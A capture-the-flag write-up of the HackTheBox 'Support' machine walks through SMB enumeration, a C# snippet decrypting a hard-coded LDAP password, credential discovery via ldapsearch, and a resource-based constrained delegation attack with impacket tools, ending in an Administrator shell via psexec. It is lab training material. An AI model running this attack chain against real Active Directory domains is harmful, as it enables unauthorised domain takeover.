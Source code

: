 ```yaml
---
title: "Support"
date: 2024-11-26
categories:
  - HackTheBox
  - Active Directory
tags:
  - HackTheBox
  - Active Directory
---
```


# Support

![](../assets/Pasted%20image%2020250510164728.png)
<!-- more -->

## Enumeration

```shell
$ nmap -sC -sV -Pn -T4 --min-rate 5000 -p- 10.10.11.174
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-26 17:48 CET
Nmap scan report for 10.10.11.174
Host is up (0.040s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-26 16:48:53Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 2s
| smb2-time: 
|   date: 2024-11-26T16:49:45
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.46 seconds
```

We have `smb` shares

```shell
$ smbclient -U "" -L //10.10.11.174   
Password for [WORKGROUP\]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        support-tools   Disk      support staff tools
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.174 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
                                                                                                            
$ smbclient -U "" //10.10.11.174/support-tools  
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 19:01:06 2022
  ..                                  D        0  Sat May 28 13:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 13:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 13:19:55 2022
  putty.exe                           A  1273576  Sat May 28 13:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 13:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 19:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 13:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 13:19:43 2022

                4026367 blocks of size 4096. 971514 blocks available
```

## Initial Access

`UserInfo.exe` seems like an internal program, let's see its interior with `dotPeek`

![](../assets/Pasted%20image%2020241126200625.png)

We have an encrypted password and an encoding key, so we have to execute that same function.

```c#
using System;
using System.Text;


class Protected
{
    private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
    private static byte[] key = Encoding.ASCII.GetBytes("armando");

    public static string getPassword()
    {
        byte[] numArray = Convert.FromBase64String(Protected.enc_password);
        byte[] bytes = numArray;
        for (int index = 0; index < numArray.Length; ++index)
        bytes[index] = (byte) ((int) numArray[index] ^ (int) Protected.key[index % Protected.key.Length] ^ 223);
        return Encoding.Default.GetString(bytes);
    }
    static void Main()
    {
        Console.WriteLine(getPassword());
    }
}
```

Put it in a `.cs` file in a folder, install `dotnet` if not installed and

```shell
csc program.cs
dotnet run
```

```shell
C:\Users\win\Desktop>dotnet run
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

If we inspect the function where the `ldap` connection is called:

![](../assets/Pasted%20image%2020241126223240.png)

The user is `support\ldap`, so we can use `ldapsearch` to enumerate all the users

```shell
$ ldapsearch -x -H ldap://support.htb -D "support\\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=support,DC=htb" "objectClass=user"
```

Looking at all the users, we see the info field in `support`

```shell
info: Ironside47pleasure40Watchful
```

Now we have `support:Ironside47pleasure40Watchful` so let's try `evil-winrm`

```shell
*Evil-WinRM* PS C:\> whoami                                                                                           support
```

## Privilege Escalation

Enumerating with `bloodhound` we see that our user has `GenericAll` over the `dc` host so we can perform a Resource-Based Constrained Delegation as seen here: [https://github.com/tothi/rbcd-attack](https://github.com/tothi/rbcd-attack)

![](../assets/Pasted%20image%2020241127164113.png)


```shell
$ impacket-addcomputer -computer-name 'evilcomputer$' -computer-pass buenas123@ -dc-ip 10.10.11.174 support.htb/support:'Ironside47pleasure40Watchful'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account evilcomputer$ with password buenas123@.


$ python rbcd.py -f evilcomputer -t dc -dc-ip 10.10.11.174 support\\support:Ironside47pleasure40Watchful 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Starting Resource Based Constrained Delegation Attack against dc$
[*] Initializing LDAP connection to 10.10.11.174
[*] Using support\support account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `evilcomputer` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `dc`
[*] Delegation rights modified succesfully!
[*] evilcomputer$ can now impersonate users on dc$ via S4U2Proxy


$ impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support.htb/evilcomputer$:buenas123@
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

Using the ticket, log in to the machine via `psexec`.

```shell
$ KRB5CCNAME=/home/kali/support/Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache  impacket-psexec -k dc.support.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file aqaqcjvd.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service DCKN on dc.support.htb.....
[*] Starting service DCKN.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.
```

## Post Exploitation

Get the flag

```shell
C:\Windows\system32> type C:\Users\Administrator\desktop\root.txt
833c01f16a54a30451cbf1250366ba41
```

